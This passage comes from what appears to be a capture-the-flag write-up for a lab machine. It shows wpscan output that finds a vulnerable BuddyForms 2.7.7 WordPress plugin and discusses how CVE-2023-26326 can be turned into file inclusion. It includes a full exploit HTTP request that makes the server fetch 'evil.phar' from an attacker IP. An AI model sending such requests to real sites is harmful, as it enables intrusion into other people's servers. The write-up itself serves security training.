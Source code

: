 
So we can do a simple wpscan on it :

```bash
wpscan --url 'http://blog.bigbang.htb'

[i] Plugin(s) Identified:

[+] buddyforms
 | Location: http://blog.bigbang.htb/wp-content/plugins/buddyforms/
 | Last Updated: 2024-09-25T04:52:00.000Z
 | [!] The version is out of date, the latest version is 2.8.13
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 2.7.7 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://blog.bigbang.htb/wp-content/plugins/buddyforms/readme.txt
```
This is interesting because BuddyForms 2.7.7 is vulnerable to an unauthenticated insecure deserialization :

## LFI with wrapwrap

[CVE-2023-26326](https://medium.com/tenable-techblog/wordpress-buddyforms-plugin-unauthenticated-insecure-deserialization-cve-2023-26326-3becb5575ed8)

But the exploit can't work because our site is using ```PHP 8.3.2``` and since ```PHP 8+``` there is no longer unserializes meta data automatically and also because Wordpress does not have any deserialisation gadget chains

[phar:// on PHP 8.+](https://php.watch/versions/8.0/phar-stream-wrapper-unserialize)

But we can try to divert the cve to an LFI.

So from the ```cve-2023-26326``` we should do this :

```console
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: blog.bigbang.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 91
Origin: http://blog.bigbang.htb
Connection: keep-alive
Referer: http://blog.bigbang.htb/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

action=upload_image_from_url&url=http://10.10.14.43/evil.phar&id=1&accepted_files=image/gif
```
![alt text](../assets/image_bigbang/evilphar.png)
